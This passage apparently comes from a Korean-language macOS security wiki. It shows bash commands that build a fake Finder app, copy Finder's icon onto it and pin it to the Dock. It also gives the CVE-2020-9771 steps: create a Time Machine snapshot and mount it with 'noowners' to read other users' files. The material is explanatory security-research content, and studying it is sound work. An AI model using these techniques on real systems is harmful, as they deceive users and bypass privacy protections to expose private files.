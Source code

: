 ```bash
<key>CFBundleIdentifier</key>
<string>com.apple.finder</string>
<key>CFBundleName</key>
<string>Finder</string>
<key>CFBundleVersion</key>
<string>1.0</string>
<key>CFBundleShortVersionString</key>
<string>1.0</string>
<key>CFBundleInfoDictionaryVersion</key>
<string>6.0</string>
<key>CFBundlePackageType</key>
<string>APPL</string>
<key>CFBundleIconFile</key>
<string>app</string>
</dict>
</plist>
EOF

# Copy icon from Finder
cp /System/Library/CoreServices/Finder.app/Contents/Resources/Finder.icns /tmp/Finder.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Finder.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```
{% endtab %}
{% endtabs %}

## TCC - 루트 권한 상승

### CVE-2020-9771 - mount\_apfs TCC 우회 및 권한 상승

**모든 사용자** (특권이 없는 사용자 포함)는 타임 머신 스냅샷을 생성하고 마운트하여 **해당 스냅샷의 모든 파일에 접근**할 수 있습니다.\
필요한 **유일한 특권**은 사용되는 애플리케이션(예: `Terminal`)이 **전체 디스크 접근**(FDA) 권한(`kTCCServiceSystemPolicyAllfiles`)을 가져야 하며, 이는 관리자가 부여해야 합니다.

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}
